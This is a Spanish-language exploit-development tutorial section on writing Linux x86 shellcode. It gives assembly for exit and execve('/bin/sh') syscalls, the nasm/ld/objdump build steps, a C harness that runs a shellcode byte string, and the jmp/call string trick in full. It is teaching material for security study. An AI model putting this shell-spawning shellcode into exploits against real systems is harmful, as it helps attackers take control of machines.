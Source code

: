 # Linux Exploiting (Basic) (SPA)


## **2.SHELLCODE**

Ver interrupciones de kernel: cat /usr/include/i386-linux-gnu/asm/unistd\_32.h | grep “\_\_NR\_”

setreuid(0,0); // \_\_NR\_setreuid 70\
execve(“/bin/sh”, args\[], NULL); // \_\_NR\_execve 11\
exit(0); // \_\_NR\_exit 1

xor eax, eax ; limpiamos eax\
xor ebx, ebx ; ebx = 0 pues no hay argumento que pasar\
mov al, 0x01 ; eax = 1 —> \_\_NR\_exit 1\
int 0x80 ; Ejecutar syscall

**nasm -f elf assembly.asm** —> Nos devuelve un .o\
**ld assembly.o -o shellcodeout** —> Nos da un ejecutable formado por el código ensamblador y podemos sacar los opcodes con **objdump**\
**objdump -d -Mintel ./shellcodeout** —> Para ver que efectivamente es nuestra shellcode y sacar los OpCodes

**Comprobar que la shellcode funciona**

```
char shellcode[] = “\x31\xc0\x31\xdb\xb0\x01\xcd\x80”

void main(){
            void (*fp) (void);
            fp = (void *)shellcode;
            fp();
}<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```

Para ver que las llamadas al sistema se realizan correctamente se debe compilar el programa anterior y las llamadas del sistema deben aparecer en **strace ./PROGRAMA\_COMPILADO**

A la hora de crear shellcodes se puede realizar un truco. La primera instrucción es un jump a un call. El call llama al código original y además mete en el stack el EIP. Después de la instrucción call hemos metido el string que necesitásemos, por lo que con ese EIP podemos señalar al string y además continuar ejecutando el código.

EJ **TRUCO (/bin/sh)**:

```
jmp                 0x1f                                        ; Salto al último call
popl                %esi                                       ; Guardamos en ese la dirección al string
movl               %esi, 0x8(%esi)       ; Concatenar dos veces el string (en este caso /bin/sh)
xorl                 %eax, %eax             ; eax = NULL
movb  %eax, 0x7(%esi)     ; Ponemos un NULL al final del primer /bin/sh
movl               %eax, 0xc(%esi)      ; Ponemos un NULL al final del segundo /bin/sh
movl   $0xb, %eax               ; Syscall 11
movl               %esi, %ebx               ; arg1=“/bin/sh”
leal                 0x8(%esi), %ecx      ; arg[2] = {“/bin/sh”, “0”}
leal                 0xc(%esi), %edx      ; arg3 = NULL
int                    $0x80                         ; excve(“/bin/sh”, [“/bin/sh”, NULL], NULL)
xorl                 %ebx, %ebx             ; ebx = NULL
movl   %ebx, %eax            
inc                   %eax                          ; Syscall 1
int                    $0x80                         ; exit(0)
call                  -0x24                          ; Salto a la primera instrución
.string             \”/bin/sh\”                               ; String a usar<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```
